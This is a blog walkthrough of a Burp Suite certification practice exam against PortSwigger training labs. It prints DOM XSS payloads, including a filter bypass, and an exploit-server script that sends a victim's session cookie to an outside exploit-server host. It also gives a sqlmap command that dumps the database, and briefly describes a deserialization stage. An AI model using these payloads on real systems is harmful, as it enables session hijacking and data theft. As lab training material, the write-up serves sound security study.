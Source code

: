 # Burp Suite Certified Practitioner Exam Preparation Walkthrough

---
toc: true
toc_label: "Table of Contents"
toc_icon: "cog"
toc_sticky: true
title: Burp Suite Exam Prep !
header:
  image: /assets/images/burp/burp_header.jpeg
  teaser: /assets/images/burp/burp_teaser.png
  
  
---


### **EXAM PREP**

**1/3: XSS**

DOM XSS in lookup function :

When the app is launched we immediatly see the search bar, what I always try is for XSS. 
I use the “Untrusted types” on Chrome. 

I put something in search and click on “search”

![untrusted.png](/assets/images/burp/untrusted.png)

By referring to DOM XSS labs on Portswigger, we see that there are 2 DOM XSS payloads who can work here : 

```jsx
\\"-alert(1)}//
or
"-alert(1)-"
```

XSS can be used to steal cookies of other users, then we need to try : 

```jsx
\\"-alert(document.cookie)}//
```

But no luck : 

![XSS blocked.png](/assets/images/burp/XSS_blocked.png)

We need to find a bypass and I found on the internet that we can bypass it by using : 

```jsx
\\"-alert(window["document"]["cookie"])}//
```

![XSS Bypassed.png](/assets/images/burp/XSS_Bypassed.png)

Now that we have the good payload we have to construct a payload with the exploit server link :

Add this code in exploit-server and 

```jsx
<script>

location='https://0a5800ae0314d4b3c09c3b3500dd000f.web-security-academy.net/?SearchTerm=%22-%28window%5B%22document%22%5D%5B%22location%22%5D%3D%22https%3A%2F%2Fexploit-0a6d00a40340d487c0a03af7016a000c%252eexploit-server%252enet%2F%2F%3F%22%2Bwindow%5B%22document%22%5D%5B%22cookie%22%5D%29-%22';

</script>
```

![Capture d’écran 2023-02-03 à 14.05.12.png](/assets/images/burp/Capture_decran_2023-02-03_a_14.05.12.png)

We just have to replace the session cookie to have access to Carlos account. 

**2/3 SQL Injection**

We have access to a new feature : 

![AdvancedSearch.png](/assets/images/burp/AdvancedSearch.png)

We see a parameter ⇒ sorted-by vulnerable to SQLi

![VulnParam.png](/assets/images/burp/VulnParam.png)

I launched the sqlmap command below : 

```jsx
sqlmap -u "[https://0a5800ae0314d4b3c09c3b3500dd000f.web-security-academy.net/filtered_search?SearchTerm=&writer=&sort-by=DATE*](https://0a5800ae0314d4b3c09c3b3500dd000f.web-security-academy.net/filtered_search?SearchTerm=&writer=&sort-by=DATE*)" --cookie="_lab=46%7cMCwCFAuZTmvz13aVBBW1bpQM25dE2RVNAhRq8fmJk1vCl2i8uauGpq2N%2bIytqdEsQkFl0b%2b8pNzF%2f4p3No1yF19zA%2bj3GuVuecfTlUlSWFGu7SfWBmEz6Mu0JEWnJg5r4GggAibBFB9QtX0gMd%2fLhfFCfcTKNJtOaZ4mGvaUex6vw3k%3d; session=F8UksvHTO0lwQgGckaeEpePsgEJQTvs2" --dump
```

![SQLi result.png](/assets/images/burp/SQLi_result.png)

Now time to visit admin-panel and see what’s the next bug ! 

**3/3** ****DESERIALIZATION:****

Using Burp Scanner we can see that admin_pref are vulnerable :

![Launch Scan.png](/assets/images/burp/Launch_Scan.png)

![Burp Scan.png](/assets/images/burp/Burp_Scan.png)

Using Deserialization Scanner plugin on Burp gave me these informations : 

![JavaDeserialization.png](/assets/images/burp/JavaDeserialization.png)

Once the payload is generated and the request sent, we can go back to Burp Collaborator to see if we have a ping back : 

![Solution.png](/assets/images/burp/Solution.png)

BINGO ! We have then finished the lab. 

I hope you enjoyed reading this article as much as I enjoyed writing it.
